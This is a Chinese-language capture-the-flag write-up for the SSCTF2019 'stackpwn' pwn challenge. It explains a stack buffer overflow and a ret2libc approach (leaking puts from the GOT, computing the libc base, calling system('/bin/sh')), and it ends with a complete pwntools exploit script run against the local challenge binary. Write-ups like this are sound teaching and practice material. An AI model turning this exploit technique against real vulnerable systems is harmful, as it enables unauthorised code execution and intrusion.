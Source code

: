 # SSCTF2019 PWN题题解


# SSCTF2019 PWN题题解

## stackpwn

1. 首先file,checsec走一遍，64位程序，动态链接，开了NX

2. IDA直接看，main函数：  

    ![](/img/ssctf/picture/pwn//stackpwn/main.png)
    
3. 进入vuln看一下：

    ![](/img/ssctf/picture/pwn/stackpwn/vuln.png)

    容易看出，存在溢出点，且v1到返回地址的距离为(0x10 + 0x8 = 0x18)。

到此为止，我们大致明白了程序的流程：通过vuln函数进行栈溢出，但是程序没有给出system函数，所以需要我们进行两次利用，第一次利用进行地址泄漏，需要使用ROP，第二次真实进行攻击。  
**基本思路是首先泄漏出puts函数的实际地址（因为在main函数和溢出之前都使用过了，所以程序内存中存在puts函数的真实地址.使用pop rdi;ret将got表中的存放的puts函数的真实地址利用plt表中的puts函数打印出来，我泄漏我自己），然后泄漏libc的基地址，然后获取system函数的实际地址（libc基地址+system偏移地址）；程序中有/bin/sh字符串，所以直接用就可以了**。  
### Exp：
```
from pwn import *

context.log_level = 'debug'

p = process('./stackpwn')

offset = 0x18   #0x10+0x8
pop_rdi_ret = 0x0000000000400933  #ROPgadet : rdi
bin_sh = 0x0000000000400954   # address of /bin/sh

elf = ELF("./stackpwn")
libc = elf.libc     # leak libc

payload = 'A'*offset + p64(pop_rdi_ret) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(0x00000000004007E7) #last address is main address
p.recvuntil("instructions...\n")

p.sendline(payload)

#get puts address
puts_addr = u64(p.recv(6).ljust(8,'\x00'))

#get libc address
puts_base = libc.symbols['puts']
libc_base = puts_addr - puts_base

#get system address
sys_addr = libc_base + libc.symbols['system']

#second loop
payload2 = 'A'*offset + p64(pop_rdi_ret) + p64(bin_sh) + p64(sys_addr)
p.sendline(payload2)
p.interactive()

```
